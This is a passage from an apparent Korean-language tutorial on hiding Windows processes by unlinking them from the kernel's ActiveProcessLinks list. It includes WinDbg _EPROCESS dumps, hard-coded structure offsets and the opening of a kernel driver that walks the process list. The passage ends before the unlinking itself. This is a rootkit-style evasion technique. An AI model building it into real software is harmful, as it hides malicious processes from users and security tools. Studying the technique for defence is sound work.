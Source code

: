 ```powershell
      +0x820 MitigationFlagsValues : <unnamed-tag>
      +0x824 MitigationFlags2 : 0
      +0x824 MitigationFlags2Values : <unnamed-tag>
      +0x828 PartitionObject  : 0xffff8a8f`b8295180 Void
      +0x830 SecurityDomain   : 0x00000001`0000002c
      +0x838 ParentSecurityDomain : 0x00000001`0000002c
      +0x840 CoverageSamplerContext : (null) 
      +0x848 MmHotPatchContext : (null) 
```

간략하게 프로세스 이름만 출력하여 확인하는 것도 가능하다.

```powershell
kd> dt_eprocess ffff950f718f0080 ImageFileName
ntdll!_EPROCESS
      +0x450 ImageFileName : [15]  "notepad.exe"
```

여기서 Process Hiding을 위해 필요한 것은 프로세스 이름을 저장하는 `ImageFileName`, 모든 프로세스를 Linked List 형태로 관리하는 `ActiveProcessLinks`, PID를 저장하고 있는 `UniqueProcessID`이다. 사실 PID 정보는 없어도 무관하며 핵심은 LIST_ENTRY 정보이다.

## 0x02_Hide Process

WDK를 설치 후에 Visual Studio에서 Driver Project를 생성하고 헤더를 수정하여 `Ntifs.h`로 수정한다. 이는 WDK Vista 이 후, 버전부터는 중복 Include를 하지 않도록 하기위해 계층적으로 구성되었으며 `Wdm.h > Ntddk.h > Ntifs.h` 순으로 상위 계층이다. 즉, `Ntifs.h`를 선언하면 함수와 구조체 정보를 포함한다. 

다음으로 위 과정에서 확인한 `ActiveProcessLinks와 ImageFileName의 Offset을 정의`한다. 이는 윈도우 OS 버전 별로 다를 수 있으므로 확인이 필요하다.

```c++
#include <ntifs.h>

#define ACTIVE_PROCESS_LINKS_OFFSET 0x2e8
#define IMAGE_FILE_NAME 0x450
```

이제, `PsGetCurrentProcess()` 함수를 이용하여 EPROCESS 포인터를 획득하고 모든 프로세스 정보를 가리키고 있는 LIST_ENTRY Pointer를 획득하기 위해 ActiveProcessLink의 Pointer 주소를 가져온다.

```c++
PEPROCESS pEPROC;
unsigned char* pCurrentProcess;
PLIST_ENTRY pHeadListEntryNode, pCurrentListEntryNode, pTempListEntryNode;
    
pEPROC = (PEPROCESS)PsGetCurrentProcess();
DbgPrint("[+] t0rchwo0d");
DbgPrint("\t[-] PsGetCurrentProcess() : %p\n", pEPROC);

pCurrentListEntryNode = (PLIST_ENTRY)((unsigned char*)pEPROC + ACTIVE_PROCESS_LINKS_OFFSET);
pHeadListEntryNode = pCurrentListEntryNode;
```

참고로 LIST_ETNRY 구조체 정보는 `ntdef.h` 헤더 파일 내에 다음과 같이 정의되어 있다.

```c++
typedef struct _LIST_ENTRY {
      struct _LIST_ENTRY *Flink;
      struct _LIST_ENTRY *Blink;
} LIST_ENTRY, *PLIST_ENTRY, *RESTRICTED_POINTER PRLIST_ENTRY;
```
